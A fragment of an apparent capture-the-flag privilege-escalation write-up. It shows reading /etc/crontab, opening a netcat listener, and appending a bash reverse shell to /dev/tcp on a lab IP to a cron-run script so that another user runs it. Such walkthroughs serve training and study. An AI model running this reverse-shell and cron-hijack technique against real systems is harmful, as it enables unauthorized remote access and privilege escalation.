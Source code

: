 <figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim(viktor)**

```
cat /etc/crontab


su viktor
Password:
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -lvnp 1337
```

Add reverse shell to script, I kept having to check and readd until dalia ran the script as there is another cronjob that resets the script

**Victim(viktor)**

```
echo "sh -i >& /dev/tcp/10.10.171.224/1337 0>&1" >> /opt/scripts/47.sh
cat /opt/scripts/47.sh
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

